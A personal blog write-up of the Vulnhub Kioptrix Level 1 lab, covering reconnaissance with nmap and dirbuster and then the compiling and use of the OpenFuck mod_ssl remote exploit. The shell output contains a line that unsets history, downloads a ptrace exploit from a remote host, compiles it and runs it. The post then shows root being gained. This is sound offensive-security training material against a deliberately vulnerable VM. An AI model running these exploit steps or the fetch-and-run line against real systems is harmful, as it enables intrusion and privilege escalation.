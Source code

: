 ```yaml
---
layout: post
title:  "Vulnhub - Kioptrix 1"
date:   2017-04-18 21:50:00 +0100
categories: vulnhub kioptrix
image:
  feature: kioptrix1.jpg
  credit:
  creditlink:
---
```


The Kioptrix series was created by [@loneferret](https://twitter.com/loneferret) as a way of learning about different variations of linux. They are also designed to be very similar to those faced in the OSCP exam.  Since I'm eventually hoping to take this certification, this looked like a good candidate to learn from as they have been described as 'easy' in the sense that there aren't too many nasty traps.  The first to try is of course [Kioptrix: Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) 

![](/assets/images/Kioptrix1/1.png)

As always, find the IP's of the box we want to target to ensure it's working.

```bash
root@kali:~# arp-scan -l
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
192.168.137.1	00:50:56:c0:00:01	VMware, Inc.
192.168.137.132	00:0c:29:b7:d4:16	VMware, Inc.
192.168.137.254	00:50:56:fe:05:d2	VMware, Inc.

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9: 256 hosts scanned in 1.858 seconds (137.78 hosts/sec). 3 responded
```

Now lets do a port scan to see what services are open.
```bash
root@kali:~# nmap -A 192.168.137.132

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-04-18 21:48 BST
Nmap scan report for 192.168.137.132
Host is up (0.00031s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1           1024/tcp  status
|_  100024  1           1026/udp  status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2017-04-18T20:50:46+00:00; +1m50s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
1024/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:B7:D4:16 (VMware)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Network Distance: 1 hop

Host script results:
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

TRACEROUTE
HOP RTT     ADDRESS
1   0.31 ms 192.168.137.132

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.91 seconds
```

Browsing to the http server, we just a pretty simple welcome page, with not too much of interest.

![](/assets/images/Kioptrix1/2.png)

I ran dirbuster hoping there was something more interesting on the server but this didn't turn up much. 

```bash
dirbuster
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: /cgi-bin/ - 403
Dir found: / - 200
Dir found: /icons/ - 200
Dir found: /manual/ - 200
Dir found: /manual/mod/ - 200
File found: /test.php - 200
Dir found: /icons/small/ - 200
Dir found: /doc/ - 403
Dir found: /usage/ - 200
File found: /usage/usage_201704.html - 200
File found: /usage/usage_200909.html - 200
```

So after a lot of fruitless searching, I ended up looking for an Apache 1.3 exploit, hoping to use that as a route onto the server, but there was nothing that looked to give me a way onto the server.  I'd seen references to mod_ssl on a couple pages (in fact it's shown in the nmap scan too), so I tried that.
```bash
root@kali:~# searchsploit mod_ssl 2.8
```

* Apache mod_ssl 2.8.x - Off-by-One HTAccess Buffer Overflow  
* Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Exploit 
* Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Exploit 

Lo and behold we have three exploits available, with OpenFuckV2 looking to be a way to get us onto the server.

So I downloaded OpenFuckV2 and compiled it according to the changes made [here](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/).  

```bash
gcc -o OpenFuck 764.c -lcrypto
```

Unfortunately, upon compiling, I got this error.

```bash
764.c:646:24: error: ‘SSL2_MAX_CONNECTION_ID_LENGTH’ undeclared here (not in a function)
  unsigned char conn_id[SSL2_MAX_CONNECTION_ID_LENGTH];
                        ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~
764.c: In function ‘read_ssl_packet’:
764.c:848:19: error: ‘SSL2_MT_ERROR’ undeclared (first use in this function)
    if ((buf[0] == SSL2_MT_ERROR) && (rec_len == 3)) {
                   ^~~~~~~~~~~~~
764.c:848:19: note: each undeclared identifier is reported only once for each function it appears in
764.c: In function ‘get_server_hello’:
764.c:980:16: error: ‘SSL2_MT_SERVER_HELLO’ undeclared (first use in this function)
  if (*(p++) != SSL2_MT_SERVER_HELLO) {
                ^~~~~~~~~~~~~~~~~~~~
764.c: In function ‘send_client_master_key’:
764.c:1072:10: error: dereferencing pointer to incomplete type ‘EVP_PKEY {aka struct evp_pkey_st}’
  if (pkey->type != EVP_PKEY_RSA) {
          ^~
764.c: In function ‘get_server_verify’:
764.c:1149:16: error: ‘SSL2_MT_SERVER_VERIFY’ undeclared (first use in this function)
  if (buf[0] != SSL2_MT_SERVER_VERIFY) {
                ^~~~~~~~~~~~~~~~~~~~~
764.c: In function ‘send_client_finished’:
764.c:1161:11: error: ‘SSL2_MT_CLIENT_FINISHED’ undeclared (first use in this function)
  buf[0] = SSL2_MT_CLIENT_FINISHED;
           ^~~~~~~~~~~~~~~~~~~~~~~
764.c: In function ‘get_server_finished’:
764.c:1174:16: error: ‘SSL2_MT_SERVER_FINISHED’ undeclared (first use in this function)
  if (buf[0] != SSL2_MT_SERVER_FINISHED) {
                ^~~~~~~~~~~~~~~~~~~~~~~
```

So, I'm including the error log here in case you stumbled across this page while googling.  The reason it seems, according to an unknown user in the comments of [this writeup](http://poc-hack.blogspot.co.uk/2012/08/kioptrix-hacking-challenge-level-1-part.html), is that the wrong version of libssl is installed.  This is fixed by installing an older version.

```bash
apt-get install libssl1.0-dev
```

So now we need to specify the shellcode we want to send depending on the install.  If you run the binary you'll see a list of all the possibles, but two stand out considering the known apache version and that there is a reference to Red Hat in the nmap scan and peppered around some random exposed files. From this we know that we want 0x6a or 0x6b.  0x6a yielded nothing but 0x6b got us a shell.

```bash
root@kali:~/Documents/Kioptrix1# ./OpenFuck 0x6b 192.168.137.132 443 

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80fc550
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
bash-2.05$ unset HISTFILE; cd /tmp; wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; 
--17:22:06--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... 
dl.packetstormsecurity.net: Host not found.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
bash: ./p: No such file or directory
bash-2.05$ 
```

So the ptrace-kmod.c file didn't work for some reason.  Not having actually read it I didn't realise this was what allowed us to get root so I spent a much longer time than I want to admit trying to find some other vulnerabilities.  After going to back to square one however, I realised this was what would help us get root on the box.  So I downloaded it to the box, compiled and ran.

```bash
bash-2.05$ gcc -o ptrace ptrace-kmod.c
gcc -o ptrace ptrace-kmod.c
bash-2.05$ ./ptrace
./ptrace
[+] Attached to 1329
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

Boom we have root!  All in all this is quite a simple box but really helped me bridge that gap in understanding how to use an exploit to compromise a server and actually going about it and troubleshooting issues along the way.  I'd highly recommend this, if like me you are new to security and looking to learn more about actually using exploits and information gathering to compromise a system.
